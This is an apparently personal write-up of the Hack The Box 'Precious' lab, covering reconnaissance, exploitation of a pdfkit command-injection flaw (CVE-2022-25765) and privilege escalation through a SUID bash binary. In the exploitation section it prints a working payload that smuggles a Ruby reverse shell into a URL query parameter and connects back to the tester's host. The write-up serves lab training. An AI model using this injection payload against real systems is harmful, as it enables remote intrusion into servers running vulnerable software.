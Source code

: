 
## HTB Precious Writeup

### Box Overview

The Precious Box on Hack the Box is a Linux box listed under the 'Easy' difficulty.

![]/docs/images/precious/20221224161832.png)

It currently has about 5600 user solves and 5100 roots, which is pretty common with easy boxes as there's not a huge difficulty curve on the privilege escalation portion. Let's get into it then.

### Reconnaissance
---
#### Nmap Scan

Starting with an nmap scan is usually a good way to figure out if this is another ssh/http box or if we get something interesting. 

![]/docs/images/precious/20221224164006.png)

Another box with the SSH ports and HTTP ports, at least the web app practice is nice. We can also see that the hostname is `precious.htb` so I'll just go ahead and add that to my `/etc/hosts` file. ( `-p-` scan didn't retrieve meaningful to I left it out.)

#### Walking the Application

Visiting `http://precious.htb` yields what looks like a single page app. 

![]/docs/images/precious/20221224164559.png)


Looks like there's a simple front-end page that takes a URL and converts the page result to a PDF file. Since these HTB containers don't have access to the internet, I'm going to spin up a Python web server to test it. 

![]/docs/images/precious/20221224164929.png)

I just hosted this on port 80 for simplicity.

![]/docs/images/precious/20221224165058.png)

This then downloads a PDF file automatically upon clicking 'Submit'.

![]/docs/images/precious/20221224165223.png)

The pdf file statically looks pretty normal, and it looks like it's generated by `pdfkit v0.8.6` which may be of interest. The PDF file generated looks pretty standard so I don't expect anything crazy from it. 

![]/docs/images/precious/20221224165511.png)

Nothing out of the ordinary, that is just an older PDF that I had downloaded from the same website. 

#### Gobuster Scan

While it doesn't seem like a directory search will amount to much I'm still going to do it.

![]/docs/images/precious/20221224165748.png)

Honestly, that's a first. At least Apache spits out a .htacess or something. But nginx doesn't really do those. And just from manually searching the only other file I could find was the `stylesheets/style.css` file in the page source.


### Preparing for Exploitation
---
I just wanted to add this section since searching for `pdfkit exploit` yields this cool one.

Source: `https://github.com/CyberArchitect1/CVE-2022-25765-pdfkit-Exploit-Reverse-Shell.git`

![]/docs/images/precious/20221224170118.png)

This seems like it might work, I just assumed this since a lot of HTB boxes are made for trying new exploits and provide a nice way to share this with a large audience. Now it goes say `pdfkit <0.8.6`, but I still want to try it.

(Also I realized after reading the txt file that this was specifically designed for this box, but I didn't know that previously so we'll pretend its not.)

Setting up the exploit is pretty straightforward as it just requires two lightweight servers to be up and open.

![]/docs/images/precious/20221224173129.png)

So now that I've got the Python web server and the Netcat listener, I'll move onto the exploitation.

### Exploitation
---
For this line, I'm going to use one that was in the GitHub link above.

```
http://10.10.16.14:9090/?name=%20` ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.16.14",8888))'`
```

![]/docs/images/precious/20221224173552.png)

Neat. 

![]/docs/images/precious/20221224174121.png)

Still no user flag though. So some lateral movement is required to move from ruby to henry first. 


### Post-Exploitation
---
First I'm going to start with the lateral movement to access the Henry user. 

![]/docs/images/precious/20221224174637.png)

Just from some looking around. I can see that Laurel is running on this box, maybe I'll come back to that later. Time for some easy enumeration.

![]/docs/images/precious/20221224174903.png)

Time to drop LinPeas in the /tmp instead of doing the work myself. 

Okay so apparently the `/bin/bash` file has a SUID bit set to it. 

![]/docs/images/precious/20221224175443.png)

I have no idea of this is intentional or not, but okay I'm gonna roll with it.

![]/docs/images/precious/20221224175659.png)

Okay then, neat little box that uses a new pdfkit exploit. Overall pretty neat, some easy HTB points if you're looking for those. 







